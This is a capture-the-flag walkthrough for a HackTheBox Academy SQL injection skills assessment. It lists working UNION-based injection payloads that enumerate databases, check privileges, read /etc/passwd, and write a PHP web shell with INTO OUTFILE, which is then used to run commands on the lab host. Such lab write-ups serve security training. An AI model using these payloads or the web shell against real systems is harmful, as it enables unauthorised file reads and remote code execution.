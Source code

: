 # Skills Assessment - SQL Injection Fundamentals

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli\_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

## Walkthrough

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

```sql
' or 1=1 limit 1 -- -+

cn' UNION select 1,2,3,4,5-- -
cn' UNION select 1,@@version,3,4,5-- -
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -

cn' UNION SELECT 1, user(), 3, 4, 5-- -
cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -
cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
http://94.237.48.205:48962/dashboard/shell.php?0=id
http://94.237.48.205:48962/dashboard/shell.php?0=ls%20%2F
http://94.237.48.205:48962/dashboard/shell.php?0=cat%20%2Fflag_cae1dadcd174.txt%20
```
